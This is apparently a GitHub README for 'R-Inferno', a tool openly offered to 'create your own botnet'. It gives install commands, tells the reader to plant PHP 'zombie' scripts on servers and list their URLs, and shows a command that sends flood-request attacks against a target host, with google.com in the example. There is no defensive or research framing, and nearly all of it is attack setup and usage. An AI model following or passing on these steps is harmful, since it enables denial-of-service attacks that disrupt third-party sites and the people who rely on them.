 # R-Inferno - Create Your Own BotNet 
It is recommended to use with VDS/VPS while using the tool.
![Screenshot](Screenshot.png)

# Installation
```bash
git clone https://github.com/Rezn0y/R-Inferno.git
cd R-Inferno
pip install -r requirements.txt
```

# Making zombies
Go to your server and upload the Bot.php and RNet.php files. Then, take your zombie URL and add it to Bot.txt as shown in the examples below:
```bash
Sample Bots:
https://google.com/RNet.php?Send=
https://youtube.com/RNet.php?Send=
https://kick.com/RNet.php?Send=
https://yandex.com/RNet.php?Send=
https://github.com/RNet.php?Send=
```
Add them one below the other, then start the attack with R-Inferno.py.

# Options
R-Inferno.py
```bash
--list=(list) - List of zombies
--send=(command) - Command to send zombies
--threads=(number) - Number of threads
```
Bot.php
```bash
--host=(google.com) - Target Host
--req=(number) - Number of requests to be sent
```

# Usage
Usage example:
```bash
python R-Inferno.py --list=Bot.txt --threads=100 --send='--host=google.com --req=1000'
```
